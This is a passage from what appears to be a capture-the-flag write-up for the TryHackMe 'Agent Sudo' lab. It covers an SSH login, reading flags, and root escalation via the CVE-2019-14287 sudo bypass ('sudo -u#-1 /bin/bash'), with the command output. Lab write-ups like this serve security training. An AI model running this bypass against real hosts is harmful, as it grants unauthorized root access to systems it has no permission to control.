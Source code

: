 I SSH'd in as james and found the user flag in `/home/james/user_flag.txt`
```bash
ssh james@10.10.54.124
...

cat user_flag.txt 
```

## Privilege Escalation

`james` could run `/bin/bash` as everyone but `root`.
```bash
sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

That combined with the `sudo` version `1.8.21p2` meant that the machine was vulnerable to the `CVE-2019-14287` privilege escalation vulnerability.
```bash
sudo --version

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

sudo -u#-1 /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```

root flag was in `/root/root.txt`.
```bash
cat /root/root.txt
```

## References

- [Solved: issue with FTP server (229 Entering Extended Passive Mode (\|\|\|49344\|)) - YouTube](https://youtu.be/i5furEJlySY)
- [mget-prompt-override](https://stackoverflow.com/questions/14836397/mget-prompt-override)
- [sudo 1.8.27 - Security Bypass - Linux local Exploit](https://www.exploit-db.com/exploits/47502)

---

#nmap #user-agent-fuzzing #hydra #binwalk #steghide #zip2john #base64-decode #cve-2019-14287 #thm